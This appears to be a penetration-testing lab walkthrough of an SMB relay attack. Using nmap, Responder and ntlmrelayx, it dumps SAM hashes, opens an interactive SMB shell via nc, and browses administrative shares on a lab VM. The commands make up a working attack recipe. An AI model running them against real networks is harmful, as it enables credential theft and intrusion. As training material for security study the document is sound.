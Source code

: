
First of all we need to run our nmap scan, to check for the host with **SMB** signing disabled

![](https://i.imgur.com/MlaVrME.jpg)

Now we can save  the host that have the prompt **"message signing enabled but not required"** into a **targets.txt** file

![](https://i.imgur.com/vNu7Yc1.png)

Now we can disable the **HTTP** and **SMB** protocol in the responder.conf file, located under `/etc/responder/Responder.conf`

![](https://i.imgur.com/7mRX0rr.png)

We can then startup `responder` with the syntax used previously in **LLMNR Poisoning** `sudo responder -i wlan0 -dwPv` (v for verbose)

![](https://i.imgur.com/TaJpooZ.png)

Now we can startup the `ntlmrelayx.py` tool wit these syntax `ntlmrelayx.py -tf targets.txt -smb2support` , if you don't have it, you can download it from [here](https://github.com/fortra/impacket/blob/impacket_0_9_19/examples/ntlmrelayx.py) and move it to `/usr/bin` 

> If you are still having problem with ntlmrelayx not working, you can download this [tool](https://github.com/Dewalt-arch/pimpmykali) officially made by the TCM members to fix things

![](https://i.imgur.com/Rdh5Zvu.jpg)

The next thing is for our target, to create an event (We are gonna be utilizing **THE-PUNISHER** VM) , remember the `\\ATACKER-IP`

![](https://dimitrios-tsarouchas.tech/assets/img/DNS-failure-Wrong-address.png)

**SAM hashes have been dumped**
![Local-SAM-hashes-have-been-dumped](https://dimitrios-tsarouchas.tech/assets/img/Local-SAM-hashes-have-been-dumped.png)_Local SAM hashes have been dumped_

The authentication succeeded because SMB signing is enabled but not required and because “dtsarouchas” is the Administrator on this computer. Therefore, the SAM hashes were able to be dumped. Now the attacker can copy the SAM hashes, try cracking them offline and move laterally or vertically.

***

Same as we did in the previous section, we can simply get an interactive SMB shell by just adding a flag to ntlmrelayx command

```
impacket-ntlmrelayx -tf targets -smb2support -i
```

-i will give the interactive shell. After running the command, you will see an output like below

![](https://www.hackingloops.com/wp-content/uploads/2023/01/6-2-1024x407.png)

It has successfully exploited and started interactive SMB client shell via TCP on the specified port.

To access the shell, you can simply use `nc` to connect to the host and port using the following command

```
nc 127.0.0.1 11000
```

This will give you the SMB shell as below

![](https://www.hackingloops.com/wp-content/uploads/2023/01/7-2.png)

From here, you can interact using the shell and access the files and folders., for example to see the content of these shares we can say

```shell
sec-fortress@kali#~$ use C$
sec-fortress@kali#~$ use ADMIN$
sec-fortress@kali#~$ use IPC$
```

Then we can do `ls`

![](https://i.imgur.com/Q2m4kx2.png)

